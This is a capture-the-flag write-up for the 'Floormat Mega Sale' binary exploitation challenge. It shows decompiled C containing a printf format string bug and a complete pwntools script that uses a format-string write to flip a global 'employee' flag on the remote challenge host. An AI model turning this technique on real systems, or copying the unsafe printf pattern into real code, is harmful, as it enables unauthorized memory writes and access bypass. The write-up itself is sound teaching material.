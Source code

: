 ```yaml
---
description: Binary Exploitation
---
```


# Floormat Mega Sale

> The Floor Mat Store is running a mega sale, check it out!
>
> Author: CryptoCat

{% file src="../../.gitbook/assets/floormat_sale.zip" %}

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

A simple shop challenge, the goal is to buy the exclusive employee mat:

```c
  setvbuf(stdout,(char *)0x0,2,0);
  local_48[0] = "1. Cozy Carpet Mat - $10";
  local_48[1] = "2. Wooden Plank Mat - $15";
  local_48[2] = "3. Fuzzy Shag Mat - $20";
  local_48[3] = "4. Rubberized Mat - $12";
  local_28 = "5. Luxury Velvet Mat - $25";
  local_20 = "6. Exclusive Employee-only Mat - $9999";
  local_10 = getegid();
```

The problem is, attempting to buy the Exclusive Employee-only Mat calls a special check for the employee variable:

```c
  if ((0 < local_14c) && (local_14c < 7)) {
    do {
      iVar1 = getchar();
    } while (iVar1 != 10);
    puts("\nPlease enter your shipping address:");
    fgets(local_148,0x100,stdin);
    puts("\nYour floor mat will be shipped to:\n");
    printf(local_148);
    if (local_14c == 6) {
      employee_access();
    }
    return 0;
  }
```

```c
void employee_access(void)

{
  char local_58 [72];
  FILE *local_10;
  
  if (employee == 0) {
    puts("\nAccess Denied: You are not an employee!");
  }
  else {
```

Since the employee variable is global, we can make a format string payload using pwntools and input it as the "Shipping Address". Full script:

```python
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'floormat_sale')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or 'riggedslot2.ctf.intigriti.io'
port = int(args.PORT or 1339)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
# break *employee_access
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

EMPLOYEE_VAR = 0x000000000040408c
log.success(f'Employee Var: {p64(EMPLOYEE_VAR)}')

payload = fmtstr_payload(10, {EMPLOYEE_VAR : 1})

log.info(io.clean())
io.sendline(b'6')
log.info(io.clean())
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>
